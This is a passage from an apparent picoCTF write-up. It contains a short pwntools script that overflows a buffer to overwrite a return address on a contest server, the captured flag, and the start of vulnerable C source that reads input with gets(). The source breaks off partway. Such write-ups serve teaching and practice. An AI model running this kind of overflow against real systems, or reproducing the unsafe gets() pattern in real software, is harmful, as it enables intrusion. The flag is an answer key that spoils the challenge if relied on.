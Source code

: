 Our payload needs 64 bytes to fill the buffer + 8 bytes to write into the rbp + the return address we want to overwrite.

Here is my solve using pwntools:
```python
from pwn import *

context(arch = "amd64", os="linux", endian="little")

p = remote("saturn.picoctf.net", 63716)

payload = b'A' * 72
payload += p64(0x000000000040123b)

p.sendline(payload)
p.recvline()
p.interactive()
```

That gives us the flag: `picoCTF{b1663r_15_b3773r_d95e02b6}`

## Local Target

Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;

  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");

  printf("num is %d\n", num);
  fflush(stdout);

  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
```